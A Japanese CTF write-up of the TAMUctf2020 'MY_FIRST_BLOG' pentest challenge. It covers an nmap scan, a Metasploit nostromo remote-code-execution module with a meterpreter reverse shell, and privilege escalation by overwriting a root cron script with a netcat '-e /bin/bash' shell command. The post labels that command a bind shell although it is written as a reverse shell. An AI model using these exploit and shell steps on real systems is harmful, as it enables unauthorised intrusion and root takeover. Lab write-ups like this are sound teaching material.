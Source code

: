```yaml
---
title: "【TAMUctf2020 writeup】MY_FIRST_BLOG（NETWORK_PENTEST）"
date:  "2020-03-30"
author:
  - "さんぽし"
description: "【TAMUctf2020 writeup】MY_FIRST_BLOG（NETWORK_PENTEST）"
draft: false
tags: ["CTF","writeup"]
categories:
  - "security"
---
```


## はじめに
KUDoS として TAMUctf2020 に参加しました。
MY_FIRST_BLOG は唯一解いた問題です。（もっと貢献しろ）
Hack the Box Like ですごい楽しかったです。

難易度的には Hack the Box の easy レベルだと思いました。（そもそも僕が解けてるので…）

## nmap

```
$ nmap -sC -sV 172.30.0.2
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-20 21:58 EDT
Nmap scan report for 172.30.0.2
Host is up (0.18s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    nostromo 1.9.6
|_http-generator: Hugo 0.54.0
|_http-server-header: nostromo 1.9.6
|_http-title: My first blog!
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.86 seconds
```

nostromo 1.9.6 には[nostromo 1.9.6 - Remote Code Execution](https://www.exploit-db.com/exploits/47837)の脆弱性があります

## metasploit使う

```
msf5 exploit(multi/http/nostromo_code_exec) > options

Module options (exploit/multi/http/nostromo_code_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   172.30.0.2       yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    80               yes       The target port (TCP)
   SRVHOST  172.30.0.14      yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.30.0.14      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Automatic (Linux Dropper)

```

これで meterpreter の shell が取れます



## /etc/crontabをみる

毎度お世話になっている[高林さん](https://twitter.com/1eDVeCw6hdSLhzB)の以下の記事を参考に調査を進めます
https://kakyouim.hatenablog.com/entry/2020/03/14/031746#Linux

```:/etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root /usr/bin/healthcheck
```

`/etc/crontab`をみると `/usr/bin/healthcheck` が実行され続けていることがわかります。

## Linpeas.sh

Linpeas.sh を使用します。
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS

これにより先ほどの `/usr/bin/healthcheck` が書き換え可能であることがわかります
（長いので細かい結果は省略）

## `/usr/bin/healthcheck`を書き換えてbind shellをとる
以下を meterpreter の `upload` コマンドを使って `/usr/bin/healthcheck` と置き換えます。

```:/usr/bin/healthcheck
nc 192.168.100.113 4444 –e /bin/bash
```

4444 番 port で待ち受けさせたので、local で以下のようにすると接続できます。

```
$ nc -nv 172.30.0.2 4444
(UNKNOWN) [172.30.0.2] 4444 (?) open
ls
flag.txt
```

flagGET です

## 終わりに
最近 Hack the Box ばかりやっていて CTF に参加していなかったのですが、CTF はみんなで力を合わせて頑張る感があってすごく楽しいですよね…
今回みたいな PENTEST の問題が出てくる CTF があったらまた貢献できるように頑張りたいです
（本当は Web 問解けるようになりたいんですけど徳丸本すら読破していないのでこういう問題でしか役に立てない）

